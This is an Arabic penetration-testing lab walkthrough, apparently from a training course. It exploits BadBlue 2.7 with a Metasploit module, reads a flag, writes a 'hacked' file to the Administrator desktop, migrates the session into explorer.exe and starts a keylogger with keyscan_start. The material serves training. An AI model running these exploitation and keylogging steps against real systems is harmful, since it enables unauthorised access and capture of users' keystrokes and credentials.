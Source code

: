 الى هنا انتهى اللاب نشوف الي بعده 

---

راح نبداء باللاب الخامس الي هو  

Windows: File and Keylogging 
-----------------------------|  

طبعا هذا اللاب الهدف منه keylogger  

الـ keylogger هو يسجل اي ضغطه على الكيبورد ويعتبر فايروس طبعا هنا راح يكون سكربت او موديول جاهز لكن انت تقدر تكتبه سواء بالـ python , C etc...  

طبعا نشوف انه كلعاده معطينا التارقت نفحص ونستغل لانه مكرر الطريقه ف مباشره راح نفحص ونستغل بورت 80 لانه هو المصاب زي مانعرف  

```bash
nmap -sV -sC 10.0.0.71  
```  

نشوف انه الخدمة الشغاله Badblue 2.7 نستغلها  
```bash
msfconsole  
use exploit/windows/http/badblue_passthru  
set RHOSTS 10.0.0.71  
exploit  
```  

والان اخذنا الشيل وكلشي تمام طبعا مطلوب مننا الفلاق ف خل نقراه  
```bash
shell  
cd /  
dir  
type flag.txt  
```  

طبعا راح نسوي ملف نصي عن طريق امر echo بلغة bash عشان نسوي الملف ونكتب داخله نص  
```bash
cd Users\\Administrator\\Desktop  
dir  
echo “You have been Hacked” > hacked.txt  
```  

الان طبعا نروح على التارقت مشين ونشوف المسار الي حطينا فيه الملف راح نحصل الملف موجود  

طبعا لو فتحته راح تحصل نفس النص الي كتبناه فوق  

طبعا الان كيف بنسوي scan للـ kay ? فيه موديول راح يساعدنا بهذا الشي  

طبعا اولا لابد ننتقل على بروسس معين بحيث يكون الاتصال مستقر  
```bash
ps -S explorer.exe  
migrate 2724  
```  

نشوف الان انه انتقلنا على بروسس اخر راح الان نجرب نستخدم امر الـ keyscan عشان يبدا يلقط لنا اي ضغطه على الكيبورد على جهاز الـ Target machine  
```bash
keyscan_start [to capture keystrokes]  
```  
